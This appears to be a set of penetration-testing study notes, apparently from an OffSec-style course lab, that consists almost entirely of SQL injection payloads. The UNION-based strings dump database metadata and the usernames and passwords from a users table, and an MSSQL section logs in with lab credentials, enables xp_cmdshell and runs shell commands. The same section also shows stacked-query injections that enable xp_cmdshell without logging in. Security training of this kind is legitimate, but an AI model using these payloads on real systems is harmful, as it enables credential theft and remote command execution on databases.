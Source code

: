   ```
  ' OR 1=1 in (SELECT username FROM information_schema.columns where table_schema ="offsec" and table_name = "users") -- // 
  
  ' OR 1=1 in (SELECT password FROM information_schema.columns where table_schema ="offsec" and table_name = "users") -- //
  
  # check the number of columns
  ' ORDER BY 1-- //
  ' ORDER BY 1,2-- //
  ...
  
  %' UNION SELECT database(), user(), @@version, null, null -- //
  
  ' UNION SELECT null, null, database(), user(), @@version  -- //
  
  ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
  
  ' UNION SELECT null, username, password, description, null FROM users -- //
  ```

  

- MSSQL

  ```
  # connect from kali
  impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
  
  # check version
  SELECT @@version;
  
  # list databases
  SELECT name FROM sys.databases;
  
  # list tables from one database
  SELECT * FROM offsec.information_schema.tables;
  
  # inspect tables
  select * from offsec.dbo.users;
  
  # AFTER LOGIN THE DATABASE
  2. EXECUTE sp_configure 'show advanced options', 1;
  3. RECONFIGURE;
  4. EXECUTE sp_configure 'xp_cmdshell', 1;
  5. RECONFIGURE;
  
  # with xp_cmdshell enabled, we can execute any Windows shell command through the EXECUTE statement
  EXECUTE xp_cmdshell 'whoami';
  
  # OR NOT LOGIN IN
      ADMIN'; EXECUTE sp_configure 'show advanced options', 1; WAITFOR DELAY '0:0:10' -- //
      ADMIN'; RECONFIGURE; WAITFOR DELAY '0:0:10' -- //
      ADMIN'; EXECUTE sp_configure 'xp_cmdshell', 1; WAITFOR DELAY '0:0:10' -- //
      ADMIN'; RECONFIGURE; WAITFOR DELAY '0:0:10' -- //
      
      ADMIN'; EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; WAITFOR DELAY '0:0:10' --
      
      ADMIN'; EXEC xp_cmdshell 'whoami'; WAITFOR DELAY '0:0:10' -- //
      
      ADMIN';IF CHARINDEX('Microsoft SQL Server', @@version) > 0 WAITFOR DELAY '0:0:10' ELSE WAITFOR DELAY '0:0:0' -- verify it is MSSQL
  ```
